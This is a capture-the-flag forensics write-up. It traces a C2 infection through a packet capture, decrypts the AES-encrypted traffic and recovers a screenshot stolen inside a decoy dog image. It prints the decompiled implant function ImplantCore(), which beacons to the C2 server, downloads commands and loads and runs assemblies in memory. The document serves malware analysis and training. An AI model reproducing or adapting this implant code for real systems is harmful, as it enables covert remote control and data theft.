# Interstella C2
**Challenge scenario**: We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?

## Overview
Well the real demon in medium category. Only a packet capture is provided. I searched for its Protocol Hierarchy.

Should go for the TCP Stream now.

Right in stream 1, there is an obfuscated Powershell script. I deobfuscated a bit to understand what it does.

It downloads a malicious encrypted file from an IP address, decryptes it with Key and IV are byte arrays to have an executable, and executes it.

We can also see the encrypted file here. So I extracted that file, decrypted it and have the executable.


## Executable analysis
Since it is compiled in C#, I used dotPeek to reverse.

The Main() function just calls to Sharp() function, and Sharp() function continue to calls to primer() function.

This primer() function will collects Operating System information, store it to un variable, then sent the result to server after encryption. It continue to decrypt the result and store in input variable.

It takes some variables from input variable to calls for ImplantCore() function. So I looked for Decryption() function.

With the given key, and IV is the first 16 bytes, ciphertext is the rest, I can now decrypt what in TCP Stream 3 using AES-CBC, and decode Base64 to have the variables that are passes to ImplantCore() function.


Having these variables, let's examine the ImplantCore() function.

```
private static void ImplantCore(
    string baseURL,
    string RandomURI,
    string stringURLS,
    string KillDate,
    string Sleep,
    string Key,
    string stringIMGS,
    string Jitter)
  {
    Program.UrlGen.Init(stringURLS, RandomURI, baseURL);
    Program.ImgGen.Init(stringIMGS);
    Program.pKey = Key;
    int num = 5;
    System.Text.RegularExpressions.Match match1 = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled).Match(Sleep);
    if (match1.Success)
      num = Program.Parse_Beacon_Time(match1.Groups["t"].Value, match1.Groups["u"].Value);
    StringWriter newOut = new StringWriter();
    Console.SetOut((TextWriter) newOut);
    ManualResetEvent manualResetEvent = new ManualResetEvent(false);
    StringBuilder stringBuilder1 = new StringBuilder();
    double result = 0.0;
    if (!double.TryParse(Jitter, NumberStyles.Any, (IFormatProvider) CultureInfo.InvariantCulture, out result))
      result = 0.2;
    while (!manualResetEvent.WaitOne(new Random().Next((int) ((double) (num * 1000) * (1.0 - result)), (int) ((double) (num * 1000) * (1.0 + result)))))
    {
      if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", (IFormatProvider) CultureInfo.InvariantCulture) < DateTime.Now)
      {
        Program.Run = false;
        manualResetEvent.Set();
      }
      else
      {
        stringBuilder1.Length = 0;
        try
        {
          string cmd = (string) null;
          string str1;
          try
          {
            cmd = Program.GetWebRequest((string) null).DownloadString(Program.UrlGen.GenerateUrl());
            str1 = Program.Decryption(Key, cmd).Replace("\0", string.Empty);
          }
          catch
          {
            continue;
          }
          if (str1.ToLower().StartsWith("multicmd"))
          {
            string str2 = str1.Replace("multicmd", "");
            string[] separator = new string[1]
            {
              "!d-3dion@LD!-d"
            };
            foreach (string input in str2.Split(separator, StringSplitOptions.RemoveEmptyEntries))
            {
              Program.taskId = input.Substring(0, 5);
              cmd = input.Substring(5, input.Length - 5);
              if (cmd.ToLower().StartsWith("exit"))
              {
                Program.Run = false;
                manualResetEvent.Set();
                break;
              }
              if (cmd.ToLower().StartsWith("loadmodule"))
              {
                Assembly.Load(Convert.FromBase64String(Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase)));
                Program.Exec(stringBuilder1.ToString(), Program.taskId, Key);
              }
              else if (cmd.ToLower().StartsWith("run-dll-background") || cmd.ToLower().StartsWith("run-exe-background"))
              {
                Thread thread = new Thread((ThreadStart) (() => Program.rAsm(cmd)));
                Program.Exec("[+] Running background task", Program.taskId, Key);
                thread.Start();
              }
              else if (cmd.ToLower().StartsWith("run-dll") || cmd.ToLower().StartsWith("run-exe"))
                stringBuilder1.AppendLine(Program.rAsm(cmd));
              else if (cmd.ToLower().StartsWith("beacon"))
              {
                System.Text.RegularExpressions.Match match2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled).Match(input);
                if (match2.Success)
                  num = Program.Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
                else
                  stringBuilder1.AppendLine($"[X] Invalid time \"{input}\"");
                Program.Exec("Beacon set", Program.taskId, Key);
              }
              else
                Program.rAsm($"run-exe Core.Program Core {cmd}");
              stringBuilder1.AppendLine(newOut.ToString());
              StringBuilder stringBuilder2 = newOut.GetStringBuilder();
              stringBuilder2.Remove(0, stringBuilder2.Length);
              if (stringBuilder1.Length > 2)
                Program.Exec(stringBuilder1.ToString(), Program.taskId, Key);
              stringBuilder1.Length = 0;
            }
          }
        }
        catch (NullReferenceException ex)
        {
        }
        catch (WebException ex)
        {
        }
        catch (Exception ex)
        {
          Program.Exec($"Error: {stringBuilder1.ToString()} {ex}", "Error", Key);
        }
        finally
        {
          stringBuilder1.AppendLine(newOut.ToString());
          StringBuilder stringBuilder3 = newOut.GetStringBuilder();
          stringBuilder3.Remove(0, stringBuilder3.Length);
          if (stringBuilder1.Length > 2)
            Program.Exec(stringBuilder1.ToString(), "99999", Key);
          stringBuilder1.Length = 0;
        }
      }
    }
  }
```

Although it looks complicated, it will just decrypt the traffic with the previously founded key, and doing tasks based on the commands.

Since it has loadmodule(), ImplantCore() will calls to Exec to execute this PE file, so I extracted from Tvq..., decode Base64 it to have the origin executable.

Doing the same to get the executable that was transfered in TCP Stream 16. 
But after times of finding, this two executable just do some post-exploitation stuffs. So I continue to decrypt the traffic to find for anything else interesting.
In TCP Stream 19 and 20, the attacker has uploaded two decoy PNG files, but in Stream 27, the attacker has executed one final command, which is take screenshot of victim's machine.


But the image that sent to server is not the screenshot, just a dog.



## Recover the screenshot
And this is when I realized that one of the two previous PE files was not useless. There is a GetScreenShot() function in Core.Host.GetScreenShot().

It takes a screenshot of the whole screen, then calls to Exec() function.

It does some encryption and then calls to GetImgData().

And turns out the original picture has been added 1500 trash bytes before it.
So I did this on CyberChef: uploaded the dog PNG file, dropped first 1500 bytes, then used to hex to find its IV for decryption (16 first bytes). Then removed To Hex, used Drop Bytes to drop next 16 bytes (which is the IV). Then decrypted AES with the previous key, taken IV with CBC/NoPadding mode, and finally I had a Gzip compressed file.

And I have recovered the screenshot that was taken from victim's machine and sent to C2 server.
